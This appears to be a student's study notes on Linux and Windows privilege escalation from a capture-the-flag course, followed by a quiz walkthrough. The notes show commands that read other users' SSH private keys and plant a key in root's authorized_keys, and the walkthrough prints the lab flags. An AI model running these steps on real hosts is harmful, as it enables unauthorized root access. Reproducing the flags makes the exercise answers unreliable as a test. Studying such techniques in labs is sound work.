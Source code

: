 Finding an internal/local vulnerability that would escalate our privileges to the `root` user on `Linux` or the `administrator`/`SYSTEM` user on `Windows`.


## Checklists
### [[HackTricks]]
#tool 
https://book.hacktricks.xyz/
checklist for both [Linux](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) and [Windows](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) local privilege escalation

### PayloadsAllTheThings
#tool
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
another one

## Enumeration Scripts
Common Linux enumeration scripts include [LinEnum](https://github.com/rebootuser/LinEnum.git) and [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker), and for Windows include [Seatbelt](https://github.com/GhostPack/Seatbelt) and [JAWS](https://github.com/411Hall/JAWS).

Another useful tool we may use for server enumeration is the [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.

==! Manual enumeration is still better because scipts such as these make a lot of "noise"==

Example of running the Linux script from `PEASS` called `LinPEAS`:

```pug
./linpeas.sh
```
```shell-session
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEYEND:
  RED/YELLOW: 99% a PE vector
  RED: You must take a look at it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)
  LightMangenta: Your username


====================================( Basic information )=====================================
OS: Linux version 3.9.0-73-generic
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
...SNIP...
```

## Kernel Exploits
For old operating system

Version -> [[searchsploit]] -> CVE -> try to exploit

## Vulnerable Software
public exploits for any installed software, especially if any older versions are in use, containing unpatched vulnerabilities

## User Privileges
check what `sudo` privileges we have:
```pug
sudo -l
```

[GTFOBins](https://gtfobins.github.io/) contains a list of commands and how they can be exploited through `sudo`

[LOLBAS](https://lolbas-project.github.io/#) also contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user.

## Scheduled Tasks
1. Add new scheduled tasks/[[cron jobs]]
2. Trick them to execute a malicious software
In:
1. `/etc/crontab`
2. `/etc/cron.d`
3. `/var/spool/cron/crontabs/root`

## Exposed Credentials
```shell-session
...SNIP...
[+] Searching passwords in config PHP files
[+] Finding passwords inside logs (limit 70)
...SNIP...
/var/www/html/config.php: $conn = new mysqli(localhost, 'db_user', 'password123');
```
Again with enumerating script we can find logs such as these

## [[SSH Keys]]

1. can read `.ssh` directory (for `id_rsa`) -> 
```pug
ssh user@10.10.10.10 -i id_rsa
```
-> we can use the `-i` for copying the rsa creds. to shh command
Could have to change permissions locally (ssh server could prevent them from working).
```pug
chmod 600 id_rsa
```

2. can read `.ssh` directory (for insterting`authorized_keys`) ->
```pug
ssh-keygen -f key
```
This will give us two files: `key` (which we will use with `ssh -i`) and `key.pub`, which we will copy to the remote machine.
```pug
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
```pug
ssh root@10.10.10.10 -i key
```




# End Quiz

 SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.

```pug
sudo -l

sudo -u user2 /bin/bash
...
sudo cat flag.txt
```
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}


Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
```pug
cd /root/.shh
cat id_rsa

chmod 600 Deskotp/rsakey1
ssh root@94.237.57.59 -p 57632 -i Desktop/rsakey1
cat flag.txt
```
HTB{pr1v1l363_35c4l4710n_2_r007}